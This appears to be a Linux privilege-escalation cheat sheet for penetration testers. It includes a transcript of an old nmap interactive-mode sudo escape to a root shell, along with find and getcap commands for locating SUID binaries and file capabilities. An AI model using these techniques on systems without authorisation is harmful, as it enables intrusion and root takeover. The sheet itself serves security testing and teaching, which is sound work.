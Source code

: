 # LINUX
This sheet serves as a resource for processes commonly used to escalate privileges of a low-privilege user access during the post-exploitation phase of the penetration test.
## Run the LINUX Privilege Checker Python Script
If Python is installed, **make sure that this script is ran immediately** [LinuxPrivChecker Python script](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Privilege%20Escalation/Tools/linuxprivchecker.py) upon gaining low-level access to a target system. This script will provide quick insight into possible misconfigurations in the target system.

## SUDO Test
Testing for sudo will sometimes reveal a nice surprise. The [LinuxPrivChecker Python script](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Privilege%20Escalation/Tools/linuxprivchecker.py) will tell you exactly which commands/programs are installed with interactive shells that can be escaped from. For instance, some older version of `nmap` had a interactivbe shell. This meant that on certain systems in which a default account has non-authenticated sudo access to it, it could easily lead to a root shell.

```
bash-3.2$ ls -lah /usr/bin/nmap
ls -lah /usr/bin/nmap
-rwxr-xr-x 1 root root 523K Jan  6  2007 /usr/bin/nmap
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> ! /bin/bash
! /bin/bash
bash-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
bash-3.2# 
```
So, it is **very important** that all of these are tested with sudo.

## SUID Test
Some of the aforementioned applciations which can be escaped from may have a SUID bit set in the permissions. This means that the effective user ID becomes that of the file's owner. **Again, test all of these** applications, **without sudo** if the attack above is unsuccessful because some of the file permissions may not be set correctly. You'd be surprised.

```
root@attacker-machine:~# find / \( -perm -2000 -o -perm -4000 \) -exec ls -ld {} \; 2>/dev/null
```
## Capabilities
Sometimes files have extra capabilities. To find special capabilities on files, you can try using the `getcap` command on every file in the file system. This can be very slow on actual physical machines - but for VMs and solid state drives, it shouldn't be too bad. You can utilize the `find` command to do this as so,
```
root@attacker-machine:~# find . * 2>/dev/null | xargs -I {} getcap {} 2>/dev/null
```
